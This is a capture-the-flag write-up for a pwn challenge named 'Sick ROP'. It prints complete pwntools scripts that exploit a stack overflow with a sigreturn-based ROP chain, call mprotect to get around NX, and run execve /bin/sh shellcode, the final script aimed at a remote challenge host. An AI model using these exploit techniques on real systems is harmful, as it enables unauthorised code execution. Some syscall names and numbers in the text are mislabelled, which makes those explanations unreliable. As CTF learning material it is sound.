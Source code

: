 # Sick ROP 

## 1. Information gathering
Bin doesn't seem to be complicated, it only has its _start and vuln() function with read and write helpers.

![objdump](pix/objdump.PNG)

Also NX there is enabled..  
![checksec](pix/checksec.PNG)  
So we cannot execute own shellcode from stack.  
  

By running binary with GDB we can see that there is overflow which will cause SEG fault  
![segfault](pix/seg_fault.PNG)  

With pattern create 100/offset we see that overflow occurs after 40b and something to notice: RAX holds exactly our 100 + \n length (0x65).  
Therefore we are able to control RSB (stack pointer) and RAX (return value) so may be able to do some rop chaining here.  

## 2. Testing theory 
Using pwntools with python, we can write code to test if we are able to control RIP by setting offset + vuln function address + new RIP:  
```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"AAAAA")
p.recv(timeout=1)
p.interactive()
```

![rip](pix/rip_controlled.PNG)  
Here we can see that totally can control RIP with this.  
But to be able to execute shellcode with rop chaining, we need 2 main gadgets: sigreturn syscall and syscall return.  

![gadgets](pix/gadgets.PNG)  
Here we see syscall; ret; address 0x401014  
As we seen before, we were able to control RAX value which is needed to call sigreturn syscall:
```
sigreturn syscall gadget: rax=0xf; syscall
```  
By changing our code to:

```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
We can see that our RAX value is now indeed 0xf (mtproctect syscall).


## 3. Building ROP chain

Next for building SigreturnFrame, we need couple more things: base address of bin and vuln() functions PTR, base address can be found with GDB: vmmap  
![baseaddr](pix/base_addr.PNG)  
and vuln functions pointer with gdb find VULN_ADDR  
![vulnptr](pix/vuln_ptr.PNG)  

Now we can build our mtprotect call:  
```
from pwn import *
p = process(['gdb-peda', './sick_rop'])
context.arch = "amd64"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.interactive()
p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
![run](pix/rwxp.PNG)  
Here we can now see that NX is bypassed! 
We also passed some A chars which we can see has ptr as: 0x4010b8 where our shellcode will be placed!  
Next we need shellcode, I will use shellstroms 23B shellcode for this, next we just build this all up:  
```
from pwn import *
#p = process(['gdb-peda','./sick_rop'])
p = remote("159.65.27.79",32030)
context.arch = "amd64"

# shellcode, length 23B
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)

p.sendline(shellcode + b'\x90' * (40-len(shellcode)) + p64(0x4010b8))
p.recv()
p.interactive()
```

![flag](pix/flag.PNG)  
And there we have it!


